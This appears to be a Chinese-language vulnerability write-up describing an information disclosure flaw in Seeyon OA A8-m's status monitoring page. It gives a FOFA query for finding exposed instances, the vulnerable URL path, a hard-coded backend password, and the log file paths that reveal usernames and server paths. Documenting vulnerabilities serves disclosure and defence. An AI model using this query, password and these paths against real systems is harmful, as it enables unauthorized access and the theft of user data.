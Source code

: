 # 致远OA A8 状态监控页面信息泄露

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

> [!NOTE]
>
> 致远OA A8-m

## FOFA

> [!NOTE]
>
> title="A8-m"

## 漏洞复现

访问监控页面

```
http://xxx.xxx.xxx.xx/seeyon/management/status.jsp
```

![](image/zhiyuan-32.png)

后台密码为 **WLCCYBD@SEEYON**

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![](image/zhiyuan-33.png)

![](image\zhiyuan-34.png)

![](image/zhiyuan-35.png)

## 漏洞利用POC

> [!NOTE]
>
> 多个目标

![](image/zhiyuan-36.png)

